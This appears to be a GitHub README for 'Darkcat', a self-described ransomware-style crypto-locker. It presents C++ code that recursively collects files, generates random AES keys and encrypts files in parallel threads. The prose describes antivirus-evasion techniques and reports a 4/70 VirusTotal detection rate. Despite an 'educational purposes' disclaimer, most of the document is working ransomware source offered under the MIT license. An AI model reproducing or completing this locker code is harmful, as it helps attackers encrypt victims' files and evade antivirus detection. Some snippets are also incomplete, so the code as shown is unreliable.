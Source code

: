 
**DISCLAIMER**: This tool is intended for educational purposes only.
The author assumes no responsibility or liability for any damages
caused by the execution of this algorithm, use at your own risk.

# DARKCAT Project - A Strong Prototype Locker
Darkcat is an Open Source Crypto-locker directed at an audience with an interest in the field of Cyber Security. The locker is similar to how very obnoxious Ransomwares operate using 2-Layer Key Encryption with the intent of making it almost impossible to recover any key from memory even during the event of Encryption. It utilizes Multi-threaded 128-bit AES Encryption which makes it very fast with the cost of leaving somewhat of a footprint on the CPU for modern activity based Antivirus Softwares to pick up. My Kaspersky didn't detect any suspicious activity in most runs, especially ones that didn't involve lots of files, with that being said the algorithm logs keys on the console but doesn't save any, so use at your own risk.
```c
/*   -0-    ,    *     o    .     *    .    o    .  -O-   '  *  . o
 *  .  '     ____  ____  ____  _  __ ____  ____  _____  .  '  ,  *
 *     .  * /  _ \/  _ \/  __\/ |/ //   _\/  _ \/__ __\  *  . |  '
 *  *     . | | \|| / \||  \/||   / |  /  | / \|  / \  '  ,  o  '
 *  .  '    | |_/|| |-|||    /|   \ |  \_ | |-||  | | ' |   *   .
 *  '  *  . \____/\_/ \|\_/\_\\_|\_\\____/\_/ \|  \_/ *     .    o
 *  *    '  ,     '     .    -0-    .    *    .  ' |   ,   *    '
 * Alexander
 * Toepfer 2020
 */
```

![Preview](in-the-wild.gif)

## Summary
  1. AV Evasion techniques used to bypass Engines.
  2. Fetching files recursively from a given root directory.
  3. Generation of 128-bit Keys used for Encryption.
  4. Multi-threaded Encryption applied on sorted vector of files.

## AV Evasion techniques
The techniques used for AV Engine Evasion in Darkcat are Behaviour Obfuscation, Data Encryption and Sandbox Detection which make it fairly successful in dealing with most Engines that analyze the binary or execute it, but it is still far from perfect, as some elaborate AV Softwares using analysis based on Machine learning still detect malicious activity, which makes this implementation not FUD. In the following Code Snippets all of the above mentioned techniques will be left out, as otherwise the Source Code would be unreadable.

## Fetching files from directory
```c
    std::string path = "C:\\Path\\To\\Testfolder";
    /* First loop identifying files */
    std::vector< file > files;
    for( const auto& entry : std::filesystem::recursive_directory_iterator( path ) ) {
        if( std::filesystem::is_regular_file( entry.path() ) ) {
            /* Ignore any keyfiles in the directory */
            if( entry.path().filename() == keyfilestr )
                continue;
            /* Ignore certain files in certain modes */
            if( ( ( entry.path().extension() == fileExtension ) && encrypt ) ||
                ( ( entry.path().extension() != fileExtension ) && !encrypt ) )
                continue;
            file f( entry.path(), std::filesystem::file_size( entry.path() ) );
            /* Ignore files that are included already */
            if( std::find( files.begin(), files.end(), f ) != files.end() )
                continue;
            files.push_back( f );
        }
    }
    /* Sort by size with file.operator>() */
    std::sort( files.begin(), files.end() );
```
You could also do this with Boost instead of \<filesystem\> but it comes down to preference. You will also need to implement a file class for this implementation to work to store file information and for sorting, but that's not really a requirement, feel free to use an array of filesystem::path if that fits your needs.

## 128-bit Key Generation
```c
std::string randomString( size_t length ) {
    /* Function returning the charset used */
    const auto chset = charset();
    std::default_random_engine rng( std::random_device{}() );
    /* Uniformly distributed values on closed interval */
    std::uniform_int_distribution<> dist( 0, chset.size() - 1 );
    /* Function returning a random character from charset */
    auto randchar = [ chset, &dist, &rng ]() { return chset[ dist( rng ) ]; };
    std::generate_n( str.begin(), length, randchar );
    return str;
}
std::string key1 = randomString( 16 ), key2 = randomString( 16 );
```
You could also use rand() with modulo here to just generate n-indices for your charset but i prefer this solution even though seeding the random generator is a complete nightmare and the standard makes no guarantees about its quality, efficiency or repeatability between implementations.

## Multi-threaded Encryption
```c
/* Second loop alter files */
std::vector< std::thread > threads;
for( const auto& f : files ) {
    if( encrypt ) {
	    std::thread t( fileEncrypt,  f.path, key, iv );
		threads.emplace_back( std::move( t ) );
	}
	else ...
}
/* Wait for processes to finish */
for( int i = 0; i < threads.size(); ++i ) {
    threads[ i ].join();
}

/* Crypto++ encryption of std::string */
std::string stringEncrypt( std::string plain,
                           CryptoPP::byte key[ CryptoPP::AES::DEFAULT_KEYLENGTH ],
                           CryptoPP::byte iv[ CryptoPP::AES::BLOCKSIZE ] ) {
    std::string cipher;
    CryptoPP::AES::Encryption aesEncryption( key, CryptoPP::AES::DEFAULT_KEYLENGTH );
    CryptoPP::CBC_Mode_ExternalCipher::Encryption cbcEncryption( aesEncryption, iv );
    CryptoPP::StreamTransformationFilter stfEncryptor( cbcEncryption,
					               new CryptoPP::StringSink( cipher ) );
    stfEncryptor.Put( reinterpret_cast< const unsigned char* >( plain.c_str() ),
		      plain.length() );
    stfEncryptor.MessageEnd();
    return cipher;
}
```
For AES-128 I didn't make my own implementation here because the solution needs to be somewhat fast and reliable, but I can see making an adaptation could help with more AV Evasion in the long run so it's very tempting.

## Virustotal (4/70)

![Preview](virustotal-scan.gif)

## Copyright and license
Code and documentation copyright 2021 Alexander Töpfer. Code released under the MIT License
